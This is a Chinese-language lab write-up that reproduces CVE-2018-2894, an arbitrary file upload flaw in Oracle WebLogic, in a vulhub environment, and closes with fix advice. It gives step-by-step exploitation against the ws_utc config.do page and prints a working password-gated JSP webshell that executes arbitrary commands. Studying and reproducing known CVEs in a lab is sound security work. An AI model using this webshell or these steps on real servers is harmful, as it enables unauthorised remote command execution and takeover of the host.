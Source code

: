 # Weblogic-任意文件上传漏洞（CVE-2018-2894）

### 0x00 前言

Oracle 7月更新中，修复了Weblogic Web Service Test Page中一处任意文件上传漏洞，Web Service Test Page 在“生产模式”下默认不开启，所以该漏洞有一定限制。

利用该漏洞，可以上传任意jsp文件，进而获取服务器权限。

受影响的版本：

-  WebLogic 10.3.6.0
-  WebLogic 12.1.3.0
-  WebLogic 12.2.1.2
-  WebLogic 12.2.1.3

### 0x01 环境搭建

这里是用的vulhub进行环境搭建

![image-20230307195339345](https://s2.loli.net/2023/03/07/oXxOFEWLUJgRysQ.png)

### 0x02 复现步骤

1、访问`http://your-ip:7001/ws_utc/config.do`

![image-20230321201256716](https://s2.loli.net/2023/03/21/kn3gYMsNlPR9jUx.png)

2、设置`Work Home Dir`的值为：`/u01/oracle/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/com.oracle.webservices.wls.ws-testclient-app-wls/4mcj4y/war/css`

我将目录设置为`ws_utc`应用的静态文件css目录，访问这个目录是无需权限的，这一点很重要。

3、然后点击安全 -> 增加，然后上传webshell：

![image-20230321202214624](https://s2.loli.net/2023/03/21/G5E3O4UwW1S9Qiv.png)

4、使用bp抓包，获取时间戳

![image-20230321202816225](https://s2.loli.net/2023/03/21/PTJzlKOikRm7EoS.png)

webshell：

```jsp
<% if("023".equals(request.getParameter("pwd"))){ java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream(); int a = -1; byte[] b = new byte[2048]; out.print("<pre>"); while((a=in.read(b))!=-1){ out.println(new String(b)); } out.print("</pre>"); } %>
```

5、访问`http://your-ip:7001/ws_utc/css/config/keystore/[时间戳]_[文件名]`

![image-20230321203133618](https://s2.loli.net/2023/03/21/2IGM8ZJrAlCWzQc.png)

### 0x03 修复建议

1、设置config.do,begin.do页面登录授权后访问；

2、更新Oracle官方发布的最新补丁